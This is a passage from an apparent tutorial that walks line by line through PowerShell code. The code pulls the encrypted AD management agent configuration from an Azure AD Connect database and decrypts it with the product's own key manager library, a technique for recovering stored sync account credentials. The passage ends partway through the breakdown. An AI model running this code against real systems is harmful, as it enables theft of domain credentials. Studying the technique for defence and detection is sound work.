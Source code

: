 ##### Line-by-line breakdown:

1.  `$cmd = $client.CreateCommand()`
    -   Creates a new SqlCommand object.

2.  `$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"`
    -   Sets the SQL query to retrieve the encrypted configuration for the AD management agent.

3.  `$reader = $cmd.ExecuteReader()`
    -   Executes the query and returns a SqlDataReader object.

4.  `$reader.Read() | Out-Null`
    -   Reads the first row of the result set.

5.  `$config = $reader.GetString(0)`
    -   Retrieves the private_configuration_xml value from the first column.

6.  `$crypted = $reader.GetString(1)`
    -   Retrieves the encrypted_configuration value from the second column.

7.  `$reader.Close()`
    -   Closes the reader.


#### 4. Decrypting the Configuration {#4-dot-decrypting-the-configuration}

```powershell
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

##### Line-by-line breakdown:

1.  `add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'`
    -   Loads the mcrypt.dll library for decryption.

2.  `$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager`
    -   Creates a new KeyManager object for handling encryption keys.

3.  `$km.LoadKeySet($entropy, $instance_id, $key_id)`
    -   Loads the key set using the previously retrieved entropy, instance_id, and key_id.

4.  `$key = $null`
    -   Initializes a variable to store the active credential key.

5.  `$km.GetActiveCredentialKey([ref]$key)`
    -   Retrieves the active credential key.
